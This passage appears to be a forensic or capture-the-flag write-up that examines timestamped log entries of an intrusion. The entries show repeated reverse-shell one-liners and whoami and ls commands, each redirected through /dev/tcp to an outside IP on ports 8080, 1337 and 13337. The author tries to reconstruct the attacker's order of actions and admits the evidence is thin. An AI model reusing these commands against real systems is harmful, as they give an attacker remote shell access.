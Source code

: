 {% highlight terminal %}
2024-04-26T05:19:56.951910054-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:19:56.951910054-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:50:28.150592897-07:00 whoami >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:50:28.150592897-07:00 whoami >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:52:17.227560458-07:00 ls >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:52:17.227560458-07:00 ls >& /dev/tcp/54.162.164.22/1337 0>&1
{% endhighlight %}

Purely based on the timings between the commands, and the sequence of the commands - the assumption is on the `13337`. I am unable provide substantional evidence for my claim.

For port `8080`, `whoami` is executed multiple times in succession, followed by `ls` and `bash`.
{% highlight terminal %} 
2024-04-26T04:44:48.788847088-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:44:48.788847088-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:45:08.348860189-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:45:08.348860189-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:47:26.008874701-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:47:26.008874701-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:48:50.62593458-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:48:50.62593458-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:49:36.9198454-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:49:36.9198454-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:56:03.769869426-07:00 ls >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:56:03.769869426-07:00 ls >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:59:28.523933096-07:00 bash -i >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:59:28.523933096-07:00 bash -i >& /dev/tcp/54.162.164.22/8080 0>&1
{% endhighlight %}

For port `1337`, there are multiple attempts to execute `bash`, with slightly longer time in between.

{% highlight terminal %}
2024-04-26T05:19:56.951910054-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:19:56.951910054-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:50:28.150592897-07:00 whoami >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:50:28.150592897-07:00 whoami >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:52:17.227560458-07:00 ls >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:52:17.227560458-07:00 ls >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:57:54.928589488-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:57:54.928589488-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:14:52.762631815-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:14:52.762631815-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:27:12.839608644-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:27:12.839608644-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:35:52.689538573-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:37:01.104541553-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:37:01.104541553-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
{% endhighlight %}

Lastly, for `13337` which occurs before `1337` but after `8080`.
{% highlight terminal %}
2024-04-26T05:01:23.890861508-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:01:23.890861508-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:04:25.485975248-07:00 ls >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:04:25.485975248-07:00 ls >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:12:45.710458616-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:12:45.710458616-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:42:35.868634796-07:00 bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:42:35.868634796-07:00 bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
{% endhighlight %}
